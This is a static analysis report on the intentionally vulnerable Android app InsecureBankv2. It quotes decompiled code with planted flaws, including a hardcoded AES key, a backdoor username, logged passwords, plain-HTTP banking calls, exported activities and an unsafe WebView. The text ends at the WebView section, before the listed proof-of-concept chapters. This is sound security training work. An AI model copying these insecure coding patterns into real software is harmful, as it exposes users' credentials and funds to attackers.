# Static Security Testing Report — Android InsecureBankv2

---

| Field | Details |
|---|---|
| **Target** | InsecureBankv2.apk |
| **File Size** | 3.4 MB |
| **Analysis Type** | Static (Decompilation-based) |
| **Tools Used** | apktool v2.7.0, jadx v1.5.1 (jadx-gui), grep |
| **Analyst** | aadith |
| **Date** | 2026-05-31 |
| **Environment** | ~/InsecureBankv2_Static (Ubuntu) |

---

## Table of Contents

1. [APK Acquisition & Lab Setup](#1-apk-acquisition--lab-setup)
2. [APK Unpacking & Decompilation](#2-apk-unpacking--decompilation)
3. [Manifest Analysis — Exported Components & Dangerous Permissions](#3-manifest-analysis--exported-components--dangerous-permissions)
4. [Hardcoded Credentials, API Keys & Insecure Endpoints](#4-hardcoded-credentials-api-keys--insecure-endpoints)
5. [Cryptography Analysis — Insecure Patterns](#5-cryptography-analysis--insecure-patterns)
6. [WebView Vulnerabilities](#6-webview-vulnerabilities)
7. [Proof-of-Concept (PoC) Summaries](#7-proof-of-concept-poc-summaries)
8. [Summary of Findings](#8-summary-of-findings)

---

## 1. APK Acquisition & Lab Setup

The InsecureBankv2 APK was downloaded from the lab target repository and confirmed as a valid Android package before beginning static analysis.

### Steps Performed

```bash
$ cd ~/Downloads
$ ls -lh InsecureBankv2.apk
-rw-rw-r-- 1 aadith aadith 3.4M May 30 15:12 InsecureBankv2.apk

$ mkdir ~/InsecureBankv2_Static
$ cp ~/Downloads/InsecureBankv2.apk .
$ file InsecureBankv2.apk
InsecureBankv2.apk: Android package (APK), with AndroidManifest.xml
```

**Proof — APK Download & File Verification:**


*APK downloaded — file size confirmed as 3.4 MB*


*`file` command confirms valid Android package (APK) with AndroidManifest.xml*

> **Observation:** The APK is a valid Android package (3.4 MB), successfully retrieved and ready for static analysis.

---

## 2. APK Unpacking & Decompilation

Both **apktool** (for manifest/resource decompilation) and **jadx-gui** (for full Java source recovery) were used.

```bash
$ apktool --version
2.7.0-dirty

$ apktool d InsecureBankv2.apk -o Decompiled
I: Using Apktool 2.7.0-dirty on InsecureBankv2.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Baksmaling classes.dex...
I: Copying assets and libs...

$ ls Decompiled
AndroidManifest.xml  apktool.yml  original  res  smali

$ jadx --version
1.5.1

$ jadx-gui InsecureBankv2.apk
INFO - Loaded classes: 6529, methods: 40188, instructions: 1008843
```

**Proof — apktool + jadx-gui Decompilation:**


*apktool decompiled successfully + jadx-gui loaded 6,529 classes and 40,188 methods*

> **Observation:** Decompilation was fully successful. 6,529 classes and 40,188 methods were loaded, providing complete Java source-level visibility.

---

## 3. Manifest Analysis — Exported Components & Dangerous Permissions

### 3.1 Dangerous Permissions

```bash
$ grep "uses-permission" Decompiled/AndroidManifest.xml
```

**Proof:**


*grep uses-permission — 12 permissions including SEND\_SMS, READ\_CONTACTS, READ\_CALL\_LOG, USE\_CREDENTIALS*

| Permission | Risk Level |
|---|---|
| `android.permission.INTERNET` | Medium |
| `android.permission.WRITE_EXTERNAL_STORAGE` | High |
| `android.permission.SEND_SMS` | **High** |
| `android.permission.USE_CREDENTIALS` | **High** |
| `android.permission.GET_ACCOUNTS` | High |
| `android.permission.READ_PROFILE` | High |
| `android.permission.READ_CONTACTS` | **High** |
| `android.permission.READ_PHONE_STATE` | High |
| `android.permission.READ_EXTERNAL_STORAGE` | High |
| `android.permission.READ_CALL_LOG` | **High** |
| `android.permission.ACCESS_NETWORK_STATE` | Low |
| `android.permission.ACCESS_COARSE_LOCATION` | High |

> ⚠️ **Finding [HIGH]:** The app requests 12 permissions — including `SEND_SMS`, `READ_CONTACTS`, `READ_CALL_LOG`, and `USE_CREDENTIALS` — far exceeding what a legitimate banking app requires.

---

### 3.2 Exported Activities (Authentication Bypass Risk)

```bash
$ grep -n "activity" Decompiled/AndroidManifest.xml
```

**Proof:**


*grep activity — PostLogin, DoTransfer, ViewStatement, ChangePassword all exported="true" with no permission attribute*

| Activity | Exported | Risk |
|---|---|---|
| `LoginActivity` | false | — |
| `FilePrefActivity` | false | — |
| `DoLogin` | false | — |
| `PostLogin` | **true** | 🔴 CRITICAL |
| `WrongLogin` | false | — |
| `DoTransfer` | **true** | 🔴 CRITICAL |
| `ViewStatement` | **true** | 🔴 CRITICAL |
| `ChangePassword` | **true** | 🔴 CRITICAL |

> ⚠️ **Finding [CRITICAL]:** Four sensitive activities — `PostLogin`, `DoTransfer`, `ViewStatement`, and `ChangePassword` — are exported without any permission restriction. Any third-party app or ADB command can directly invoke these, bypassing authentication entirely.

---

### 3.3 Exported Broadcast Receiver

```bash
$ grep -n "receiver" Decompiled/AndroidManifest.xml
```

**Proof:**


*grep receiver — MyBroadCastReceiver is exported="true" with no permission guard*

> ⚠️ **Finding [HIGH]:** `MyBroadCastReceiver` is exported without any permission protection. Attackers can send arbitrary broadcasts to trigger receiver logic (e.g., SMS-based credential exfiltration).

---

### 3.4 Exported Content Provider

```bash
$ grep -n "provider" Decompiled/AndroidManifest.xml
```

**Proof:**


*grep provider — TrackUserContentProvider is exported="true" with no android:readPermission or android:writePermission*

> ⚠️ **Finding [HIGH]:** `TrackUserContentProvider` is exported with no read/write permissions. Any app can query this provider and access stored user tracking data.

---

### 3.5 allowBackup & debuggable Flags

```bash
$ grep -n "allowBackup" Decompiled/AndroidManifest.xml
$ grep -n "debuggable" Decompiled/AndroidManifest.xml
```

**Proof:**


*Both android:allowBackup="true" and android:debuggable="true" found on application tag (line 15)*

> ⚠️ **Finding [HIGH]:**
> - `android:allowBackup="true"` — Allows ADB backup of the app's private data without root, exposing all stored credentials and databases.
> - `android:debuggable="true"` — Allows attacker-controlled debuggers to attach to the process, enabling runtime memory inspection and code manipulation.

---

## 4. Hardcoded Credentials, API Keys & Insecure Endpoints

### 4.1 Hardcoded Password References

**Proof:**


*jadx search "password" — settings.getString("superSecurePassword"), saveCreds(), System.out.println(password), decryptedPassword exposed*

```java
// LoginActivity.java
String password = settings.getString("superSecurePassword", null);
String decryptedPassword = crypt.aesDecryptedString(password);

// DoLogin.java
saveCreds(DoLogin.this.username, DoLogin.this.password);
System.out.println("newpassword: " + this.uname);
```

> ⚠️ **Finding [CRITICAL]:** Passwords are stored in SharedPreferences under `"superSecurePassword"` and printed to logcat — readable by any app with `READ_LOGS` permission.

---

### 4.2 Hardcoded Username References

**Proof:**


*jadx search "username" — EncryptedUsername in SharedPrefs, username in Extras, Base64 encoding, saveCreds()*

```java
// LoginActivity.java
String username = settings.getString("EncryptedUsername", null);

// DoTransfer.java
String MYFILE = Environment.getExternalStorageDirectory()
    + "/Statements_" + DoTransfer.this.usernameBase64ByteString + ".html";
```

> ⚠️ **Finding [HIGH]:** Username stored as `"EncryptedUsername"` in SharedPreferences and used to construct filenames on world-readable external storage.

---

### 4.3 Hardcoded Admin Backdoor

**Proof:**


*jadx search "admin" — DoLogin checks username.equals("devadmin") for privileged logic*

```java
// DoLogin.java
if (DoLogin.this.username.equals("devadmin")) { ... }
```

> ⚠️ **Finding [HIGH]:** The username `"devadmin"` is hardcoded as a privileged account check — a classic backdoor credential embedded in the application binary.

---

### 4.4 Hardcoded AES Secret Key

**Proof:**


*jadx search "secret" — String key = "This is the super Secret key 123" visible in CryptoClass plaintext source*

```java
// CryptoClass.java
String key = "This is the super Secret key 123";
```

> ⚠️ **Finding [CRITICAL]:** The AES encryption key is hardcoded in plaintext. Any attacker who decompiles the APK obtains the key and can decrypt all ciphertext stored by the app.

---

### 4.5 URL Endpoint References

**Proof:**


*jadx search "URL" — 50+ results including getBaseUrl(), runtime-constructed server endpoints*

---

### 4.6 Insecure HTTP Endpoints

**Proof:**


*jadx search "http://" — ChangePassword, DoLogin, DoTransfer all hardcode protocol = "http://"*

```java
// ChangePassword.java / DoLogin.java / DoTransfer.java
String protocol = "http://";
```

> ⚠️ **Finding [CRITICAL]:** All three core banking operations — login, fund transfer, and password change — use plain HTTP. All traffic is trivially interceptable via MITM on the same network.

---

### 4.7 HTTPS Endpoints (Third-Party Libraries Only)

**Proof:**


*jadx search "https://" — 36 results, all from Google Play Services libraries, not InsecureBankv2 core*

> **Note:** All 36 HTTPS URLs are from embedded Google Play Services. The InsecureBankv2 app itself uses HTTP exclusively for its own backend.

---

### 4.8 Token References

**Proof:**


*jadx search "token" — 50+ results, predominantly GMS auth token infrastructure*

---

## 5. Cryptography Analysis — Insecure Patterns

### 5.1 Cipher.getInstance — AES/CBC/PKCS5Padding

**Proof:**


*jadx search "Cipher.getInstance" — AES/CBC/PKCS5Padding in CryptoClass.aes256decrypt and aes256encrypt*

```java
// CryptoClass.java
Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
```

> ⚠️ **Finding [HIGH]:** AES/CBC with a hardcoded key and no proper IV management provides no meaningful security.

---

### 5.2 AES Usage Across the Codebase

**Proof:**


*jadx search "AES" — 39 results across CryptoClass, DoLogin, DoTransfer using aesDecryptedString / aesEncryptedString*

```java
// DoLogin.java
return crypt.aesDecryptedString(password);
```

> ⚠️ **Finding [CRITICAL]:** The broken AES implementation is used throughout the app for all credential encryption. This is functionally equivalent to plaintext storage.

---

### 5.3 DES / Weak Cipher Check

**Proof:**


*jadx search "DES" — results match "Description" strings only; no DES cipher in InsecureBankv2 core classes*

> **Observation:** No DES cipher usage in InsecureBankv2 application classes. All matches are false positives from "Description" strings in support libraries.

---

### 5.4 MD5 Usage

**Proof:**


*jadx search "MD5" — 7 results, MessageDigest.getInstance("MD5") in GMS internal libraries*

```java
MessageDigest messageDigest = MessageDigest.getInstance("MD5");
```

> ⚠️ **Finding [MEDIUM]:** MD5 is cryptographically broken. Found 7 usages. Must never be used for security-sensitive hashing.

---

### 5.5 SecretKeySpec — Hardcoded Key Material

**Proof:**


*jadx search "SecretKeySpec" — 6 results; new SecretKeySpec(keyBytes, "AES") from hardcoded string in CryptoClass*

```java
// CryptoClass.java
SecretKeySpec newKey = new SecretKeySpec(keyBytes, "AES");
// keyBytes derived from: "This is the super Secret key 123"
```

> ⚠️ **Finding [CRITICAL]:** `SecretKeySpec` constructed from a hardcoded string with no KDF, no salt, no iteration count — the root cause making all AES encryption trivially reversible.

---

### 5.6 SHA-1 Usage

**Proof:**


*jadx search "SHA1" — SHA1withRSA and MessageDigest.getInstance("SHA1") in GMS libraries*

```java
Signature signature = Signature.getInstance("SHA1withRSA");
byte[] digest = MessageDigest.getInstance("SHA1").digest(...);
```

> ⚠️ **Finding [MEDIUM]:** SHA-1 is deprecated and collision-prone. Use in `SHA1withRSA` is especially dangerous due to signature forgery risk.

---

### 5.7 Hardcoded Secret String — Second Confirmation

**Proof:**


*jadx search "secret" — key = "This is the super Secret key 123" clearly visible in CryptoClass*

---

## 6. WebView Vulnerabilities

### 6.1 WebView Usage Overview

**Proof:**


*jadx search "WebView" — 50+ results; ViewStatement uses WebView with JavaScript enabled, file:// URI loading, custom WebViewClient*

```java
// ViewStatement.java
WebView mWebView = (WebView) findViewById(R.id.webView1);
mWebView.getSettings().setJavaScriptEnabled(true);
mWebView.getSettings().setSaveFormData(true);
mWebView.getSettings().setBuiltInZoomControls(true);
mWebView.setWebViewClient(new MyWebViewClient());
```

---

### 6.2 JavaScript Enabled in WebView

**Proof:**


*jadx search "setJavaScriptEnabled" — 3 results; ViewStatement.onCreate explicitly calls mWebView.getSettings().setJavaScriptEnabled(true)*

```java
mWebView.getSettings().setJavaScriptEnabled(true);
```

> ⚠️ **Finding [HIGH]:** JavaScript explicitly enabled in the WebView for bank statement rendering — opens XSS attack surface if any user-controlled content is rendered.

---

### 6.3 File Access via `file://` URI (Local File Inclusion)

**Proof:**


*jadx search "file://" — ViewStatement.onCreate loads mWebView.loadUrl("file://" + Environment.getExternalStorageDirectory() + "/Statements\_" + this.uname + ".html")*

```java
// ViewStatement.java
mWebView.loadUrl("file://" + Environment.getExternalStorageDirectory()
    + "/Statements_" + this.uname + ".html");
```

> ⚠️ **Finding [CRITICAL]:** WebView loads HTML directly from external storage via `file://`. External storage is world-readable — a malicious app can plant a crafted HTML file that executes arbitrary JavaScript in the banking app's WebView context.

---

### 6.4 loadUrl References

**Proof:**


*jadx search "loadUrl" — 11 results; file:// load in ViewStatement and view.loadUrl(url) in MyWebViewClient.shouldOverrideUrlLoading with no URL validation*

```java
// MyWebViewClient.java
public boolean shouldOverrideUrlLoading(WebView view, String url) {
    view.loadUrl(url);
    ...
}
```

> ⚠️ **Finding [MEDIUM]:** `shouldOverrideUrlLoading` calls `loadUrl` with no URL validation. No `onReceivedSslError` override visible — risk of silent SSL acceptance enabling MITM.

---

### 6.5 JavaScript Bridge — addJavascriptInterface

**Proof:**


*jadx search "addJavascriptInterface" — addJavascriptInterface(new zzih(this), "googleAdsJsInterface") in GMS internal WebView*

```java
addJavascriptInterface(new zzih(this), "googleAdsJsInterface");
```

